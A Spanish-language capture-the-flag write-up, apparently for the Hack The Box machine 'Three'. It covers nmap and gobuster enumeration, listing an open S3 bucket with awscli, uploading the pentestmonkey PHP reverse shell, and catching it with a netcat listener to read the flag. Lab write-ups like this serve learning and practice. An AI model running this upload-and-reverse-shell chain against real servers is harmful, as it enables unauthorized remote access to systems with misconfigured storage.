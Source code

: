 Maquina: Three

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 183538](https://github.com/user-attachments/assets/723e5af8-477b-4910-9178-04a6c1772101)

Iniciamos la máquina y verificamos la conexión

ping 10.129.65.152 -c 1

![Screenshot 2024-11-10 183802](https://github.com/user-attachments/assets/948ef97f-f391-4d7d-88ef-34d5d15103c5)

realizamos un escaneo de puertos y servicios

nmap -p- --min-rate 5000 -sV 10.129.65.152

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP están abiertos

![Screenshot 2024-11-10 183919](https://github.com/user-attachments/assets/cccca470-bbba-46bd-adcf-59f7489800ba)

vamos a la web y encontramos una dirección de correo electrónico que aparece en la sección de contacto: mail@thetoppers.htb

![Screenshot 2024-11-10 183948](https://github.com/user-attachments/assets/1400ba6a-c890-4f86-93db-5b9df8d84d96)

![Screenshot 2024-11-10 184023](https://github.com/user-attachments/assets/d54a6803-ce9f-4111-a4be-367c7801caf6)

añadimos la ip a /etc/hosts

echo 10.129.65.152 thetoppers.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 184239](https://github.com/user-attachments/assets/2cc97e10-0183-4f57-8b4e-0c27040728fd)

identificamos subdominios con Gobuster

gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain

![Screenshot 2024-11-10 184733](https://github.com/user-attachments/assets/e48ceb6c-7d0c-4cb0-bfad-55ab517dabbd)

añadimos la dirección del subdominio s3.thetoppers.htb al archivo /etc/hosts

![Screenshot 2024-11-10 185041](https://github.com/user-attachments/assets/1679ffdb-7560-4761-a7f2-7c3559680a5d)

echo 10.129.65.152 s3.thetoppers.htb | sudo tee -a /etc/hosts

vamos a la web

![Screenshot 2024-11-10 185051](https://github.com/user-attachments/assets/56135bcf-3d04-4c6d-8f82-b7132a3103cd)

el servicio se refiere a Amazon Simple Storage Service (Amazon S3)
Este servicio puede usarse para guardar diversos tipos de información, 
como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

Lo instalamos y lo configuramos

sudo apt install awscli

aws configure

![Screenshot 2024-11-10 185345](https://github.com/user-attachments/assets/9fc58951-8855-4757-a247-942a6d4d955e)

![Screenshot 2024-11-10 185622](https://github.com/user-attachments/assets/8729ed6c-509d-4e4b-847c-4ca8c24ccf0c)

Esto nos muestra dos elementos de interés y una carpeta llamada "images". Además, disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb

![Screenshot 2024-11-10 185650](https://github.com/user-attachments/assets/dad4e118-a322-471f-a4e9-f90231ac9d43)

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. 
Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. 
Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en pentestmonkey. 

Puedes encontrar el script aquí: 

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

copiamos el payload en un file y cambiamos IP y puerto.

![Screenshot 2024-11-10 190554](https://github.com/user-attachments/assets/7c81e59a-50c9-42ae-942e-405b654f985a)

![Screenshot 2024-11-10 190607](https://github.com/user-attachments/assets/85f36252-4324-452c-a2f9-ab84623bc654)

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

![Screenshot 2024-11-10 190934](https://github.com/user-attachments/assets/9a8981c6-2593-455d-aa45-7f9be699b2f9)

si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

nc -nlvp 443

![Screenshot 2024-11-10 192106](https://github.com/user-attachments/assets/314431cf-41eb-4782-9190-ec0491abbd6f)

Luego, accedemos a http://thetoppers.htb/shell.php.4

![Screenshot 2024-11-10 191410](https://github.com/user-attachments/assets/d7130117-25c3-40a2-b92a-c56ac2498fed)

Encontrados el flag en /var/www/flag.txt

![Screenshot 2024-11-10 191420](https://github.com/user-attachments/assets/4936b202-8280-42ac-9e6c-7e36030eba59)

![Screenshot 2024-11-10 191542](https://github.com/user-attachments/assets/60e2a943-dd0c-401f-b1cb-bfe0afd6f355)
